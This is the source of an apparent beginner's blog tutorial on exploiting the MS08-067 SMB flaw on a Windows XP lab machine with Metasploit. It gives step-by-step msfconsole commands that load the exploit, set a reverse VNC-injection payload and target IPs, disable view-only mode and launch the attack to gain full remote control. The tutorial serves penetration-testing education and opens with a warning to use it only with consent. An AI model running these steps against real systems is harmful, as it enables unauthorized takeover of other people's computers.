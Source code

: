 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnurability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise you would be commiting an illegal act.

Now that we have sucessfully obtained a list of all the vulnurabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnurabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP</b>

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controlls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnurabilities & Exploit Database][Rapid7-DB]

Type in the vulnurability code we want to use. In our particular case, it is MS08_067

In the dropdown menue to the right of the search field, choose "Metasploit Moduels"

Look under "Moduel Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

<b>Loading Exploits and Payloads</b>
<br>[Offensive Security - Metasploit Commands][Metasploit-Commands]</br>
<br>[Offensive Security - Using Exploits][Using-Exploits]</br>

Open terminal and type in the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basicly software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD /windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Setting Up The Attack</b>

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

<img src="../_site/images/ms08_067/msfconsole_show_options1.JPG">

You may notice that a fiew of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

<img src="../_site/images/ms08_067/ifconfig.JPG">

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to controll the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

<b>Hack It!</b>

Now run show options again and you should have something like this.

<img src="../_site/images/ms08_067/msfconsole_show_options2.JPG">

Run the following command.

{% highlight ruby %}
exploit
{% endhighlight %}

Congradulations. You did it! You can now do whatever you like to the target computer.

<img src="../_site/images/ms08_067/owned.JPG">

[Rapid7-DB]: https://www.rapid7.com/db
[Using-Exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[Metasploit-Commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/



